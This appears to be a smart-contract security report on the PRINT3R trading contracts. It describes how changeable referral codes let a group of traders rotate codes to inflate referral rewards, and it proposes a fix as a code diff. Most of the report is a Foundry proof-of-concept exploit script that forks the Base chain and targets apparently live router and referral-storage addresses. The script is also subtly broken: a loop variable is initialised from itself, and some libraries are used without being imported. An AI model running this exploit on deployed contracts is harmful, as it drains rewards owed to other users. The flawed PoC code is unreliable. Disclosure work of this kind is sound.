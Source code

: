 # A gang of traders can round-robin multiple referral codes while tricking multiple accounting of trading volume generated by referral program or upgrading multiple referrer addresses to tier-2 or tier-3 to inflate referral rewards.

## Bug Description

Referral code can be changed after associated once with a trader address. 

`PositionRouter.createIncreasePosition()` or `PositionRouter.createIncreasePositionETH()` has referral code parameter which allows to change referral code associated with `msg.sender`.

https://github.com/PRINT3Rxyz/V1-Contracts/blob/main/src/core/PositionRouter.sol#L651-L655
```
    function _setTraderReferralCode(bytes32 _referralCode) internal {
        if (_referralCode != bytes32(0) && referralStorage != address(0)) {
            IReferralStorage(referralStorage).setTraderReferralCode(msg.sender, _referralCode);
        }
    }
```

Also, anyone can create referral code by calling `ReferralStorage.registerCode()`.

https://github.com/PRINT3Rxyz/V1-Contracts/blob/main/src/referrals/ReferralStorage.sol#L77-L83
```
    function registerCode(bytes32 _code) external {
        require(_code != bytes32(0), "ReferralStorage: invalid _code");
        require(codeOwners[_code] == address(0), "ReferralStorage: code already exists");

        codeOwners[_code] = msg.sender;
        emit RegisterCode(msg.sender, _code);
    }
```

It allows a trader to be associated with multiple referrers during specific timeframe , thus tricking into multiple accounting of traffic generated by referral program or upgrading mutliple referrer codes into tier-2 or tier-3.

## Impact
A gang of traders can amplify referrer rewards multiple times, these inflated rewards can be shared among them.

It will cause protocol insolvency, dilution or loss of other user's rewards.

## Recommendation
Referral code should not be changed once associated with one address.

```
function _setTraderReferralCode(bytes32 _referralCode) internal {
-        if (_referralCode != bytes32(0) && referralStorage != address(0)) {
-            IReferralStorage(referralStorage).setTraderReferralCode(msg.sender, _referralCode);
-        }
        
+        if (_referralCode == bytes32(0)) { return; }
+        if (referralStorage == address(0)) { return; }

+        IReferralStorage _referralStorage = IReferralStorage(referralStorage);

+        // skip setting of the referral code if the user already has a referral code
+        if (_referralStorage.traderReferralCodes(msg.sender) != bytes32(0)) { return; }

+        _referralStorage.setTraderReferralCode(msg.sender, _referralCode);
    }
```

## Proof of Concept
```
pragma solidity 0.8.10;

import "forge-std/Test.sol";

interface PositionRouter {
  function createIncreasePositionETH(
        address[] memory _path,
        address _indexToken,
        uint256 _minOut,
        uint256 _sizeDelta,
        bool _isLong,
        uint256 _acceptablePrice,
        uint256 _executionFee,
        bytes32 _referralCode,
        address _callbackTarget
    ) external payable returns (bytes32);
}

interface ReferralStorage {
  function registerCode(bytes32 _code) external;
}

contract ContractTest is Test {
  PositionRouter          constant router = PositionRouter(0x6eD655C223A0E65E4C8493dCEc0585fE54e72C7d);
  ReferralStorage         constant refStorage = ReferralStorage(0xF5Ba8Cb893F81b2f4FAE65a9b559032ea2eB9689);
  address                 constant wbtc = 0xeA96c24CDeF2FB472b86eB51414e8D7cf2cA3302;
  address                 constant weth = 0x4200000000000000000000000000000000000006;

  using SafeERC20 for IERC20Metadata;

  function setUp() public {
    vm.createSelectFork("Base"); 
  }

  function testPRINT() public {
    address[] memory path = new address[](2);
    path[0] = weth;
    path[1] = wbtc;

    console.log("Creating multiple referral codes..");
    for (uint256 i = 1; i <= 3; i++) {
      bytes32 referralCode = bytes32(i);

      vm.startPrank(address(uint160(i)));
      refStorage.registerCode(referralCode);
      vm.stopPrank();
    }
    
    for (uint256 i = 1; i <= 3; i++) {
      vm.startPrank(address(uint160(i)));

      console.log("Round-robin among referral codes..");
      for (uint256 j = j; j <= 3; j++) {
        bytes32 referralCode = bytes32(j);
        router.createIncreasePositionETH{value: 10 ether}(
            path,
            wbtc,
            0,
            35689554309499200000000000000000000,
            true,
            31276847840000000000000000000000000,
            300000000000000,
            referralCode,
            0x0000000000000000000000000000000000000000
        );
      }
      vm.stopPrank();
    }
  }
}
```